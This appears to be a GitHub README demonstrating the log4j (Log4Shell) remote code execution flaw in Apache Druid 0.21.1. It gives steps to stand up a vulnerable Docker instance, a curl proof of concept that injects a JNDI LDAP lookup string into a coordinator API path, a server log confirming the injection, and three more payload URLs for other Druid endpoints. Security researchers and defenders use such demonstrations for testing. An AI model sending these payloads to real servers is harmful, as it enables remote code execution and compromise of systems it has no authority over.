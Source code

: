 # Apache Druid log4j RCE

## vulnerable app

1. download source code
```
https://download.fastgit.org/apache/druid/archive/druid-0.21.1.zip
```
2. unzip and enter the docker dir
```
unzip druid-druid-0.21.1.zip
cd druid-druid-0.21.1/distribution/docker
```
3. start
```
docker-compose -f docker-compose.yml up
```
P.S. Druid need enough memory

## Poc

```
curl -vv -X DELETE 'http://xxxxxx:8888/druid/coordinator/v1/lookups/config/$%7bjndi:ldap:%2f%2fdruid_test.yyyyyyyy%7d'
```

Log

```
2021-12-14T15:23:26,952 WARN [qtp91273747-111] org.apache.druid.server.lookup.cache.LookupCoordinatorManager - Requested delete of tier [${jndi:ldap://localhost:1270/abc}] that does not exist!
```

I've tested it

![](1.png)

## Other Pocs

```
http://0.0.0.0:8888/druid/coordinator/${jndi:ldap://0.0.0.0/123}
```

```
http://0.0.0.0:8888/druid/indexer/${jndi:ldap://0.0.0.0/123}
```

```

http://0.0.0.0:8888/druid/v2/${jndi:ldap://0.0.0.0/123}
```
